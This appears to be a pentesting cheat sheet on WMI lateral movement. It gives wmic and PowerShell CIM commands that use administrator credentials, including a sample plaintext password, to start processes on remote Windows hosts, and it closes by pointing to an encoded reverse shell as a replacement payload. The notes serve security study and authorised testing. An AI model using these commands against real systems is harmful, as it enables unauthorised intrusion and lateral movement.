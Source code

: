 
### **WMI (Windows Management Instrumentation)**  
**Use Cases**: Remote code execution, lateral movement, data collection.  
**Protocol**: DCOM (TCP ports 135, 49152-65535) or WinRM (HTTP/5985, HTTPS/5986).  
we need the credentials of a member of the _Administrators_ local group, which can also be a domain user.
From PowerShell with `valid member of the Local Administrator group` for the target machines.

 ``` powershell
 wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```
**Key Commands**:  
- **Legacy WMIC (Deprecated but still useful)**:  
  ```bash
  wmic /node:<IP> /user:<DOMAIN\USER> /password:<PASSWORD> process call create "cmd.exe /c calc.exe"
  ```  
- **/node:** Specifies the target machine’s IP address or hostname.
- **/user:** The username that has the required privileges on the target machine.
- **/password:** The corresponding password for authentication.
- **process call create:** Instructs WMIC to create (execute) a new process on the target.
- **"<COMMAND>":** The command or application to be executed remotely (e.g., `"calc"` for the calculator).
Example:

``` powershell
 wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

- A `ReturnValue` of "0", meaning that the process has been created successfully.
- **PowerShell (Modern Approach)**:  
Steps:
1. Create a `PSCredential` Object.
2. Prepare a` CIM` Session: Define session options to use `DCOM` -> Create a new `CIM` session to the target < IP >.
3. Use `Invoke-CimMethod` to run the command on the target machine.

  ```powershell
  # Create PSCredential Object
  $cred = New-Object System.Management.Automation.PSCredential ('<USER>', (ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force))

  # Create CIM Session (DCOM)
  $opt = New-CimSessionOption -Protocol DCOM
  $session = New-CimSession -ComputerName <IP> -Credential $cred -SessionOption $opt

  # Execute Command
  $Command = 'calc.exe'
  Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
  ```  

**Key Considerations**:  
- Requires **local admin** privileges on the target.  
- Processes spawn in **Session 0** (non-interactive). Use `-RunAs` or migrate to user sessions for GUI access.  
- UAC bypassed for **domain admins** on domain-joined machines.  
#### We can replace `$Command` with **Encoded** shell from [PowerShell_RCE](https://github.com/MGamalCYSEC/ReverseShellCrafter/tree/main/PowerShell)



